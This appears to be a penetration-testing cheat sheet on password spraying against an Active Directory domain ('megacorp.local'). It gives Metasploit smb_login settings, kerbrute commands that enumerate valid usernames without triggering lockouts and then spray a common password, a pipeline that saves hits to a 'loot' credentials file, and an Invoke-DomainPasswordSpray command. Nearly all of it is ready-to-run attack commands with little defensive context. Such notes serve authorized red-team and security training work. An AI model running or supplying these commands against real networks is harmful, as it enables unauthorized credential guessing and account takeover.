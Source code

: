 # Password Spraying

## MSF

```text
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBUser snovvcrash
msf > set SMBPass Passw0rd!
msf > set VERBOSE False
msf > run
```

## kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC \([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out\):

```text
$ ./kerbrute userenum -d megacorp.local -o ~/ws/log/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/log/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```text
$ ./kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/log/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/log/kerbrute-passwordspray-'123456'.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```

## DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```text
PS > Invoke-DomainPasswordSpray -UserList .\users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```

